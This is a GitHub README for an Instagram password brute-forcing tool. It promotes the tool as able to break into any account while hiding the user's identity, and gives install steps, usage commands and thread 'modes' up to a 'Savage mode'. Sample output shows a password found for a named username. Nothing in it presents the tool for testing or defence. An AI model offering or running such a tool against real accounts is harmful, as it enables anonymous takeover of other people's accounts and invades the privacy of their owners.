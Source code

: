 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.0-blue.svg)]()
[![Python](https://img.shields.io/badge/Python-v2.7--3-blue.svg)]()
[![Discord](https://img.shields.io/badge/Chat-Server-brightgreen.svg)](https://discord.gg/SMUaWmn)
<br>

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden. 


### Support
**It's not easy maintaining this code, a donation of any size will be appreciated**<br>

[![Donate](https://img.shields.io/badge/PayPal-Donate-orange.svg)]( https://www.paypal.me/Msheikh03)

### Donations Received
| Donation Number | Amount Donated |
|      :----:     |      :----:    | 
|        1        |      $35.00    |
|        2        |      $10.00    |
|        3        |      $20.00    |
|        4        |      $1.00     |

### Donations Statistics
|   Measurement   | Amount Donated |
|      :----:     |      :----:    | 
|        Min      |      $1.00     |
|        Max      |      $35.00    |
|        Avg      |      $16.50    |
|        Total    |      $66.00    |



### Requirements
- Python *v2.7.x* **|** *v3.x.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Install Dependencies
```
python install.py
```

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 16 bots; 1 => 8 bots; 2 => 4 bots; 3 => 2 bots
```

### Usage
```
python instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time
- 16 bots: 256 passwords at a time

### Modes
- 0: 16 bots
- 1: 8 bots
- 2: 4 bots
- 3: 2 bots

### Chill mode
This mode uses only 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 8 bots, or 128 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 16 bots, or 256 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 2
[-] Attempts: 14
[-] Browsers: 87
```

### Stop
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 101
[-] Browsers: 0

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
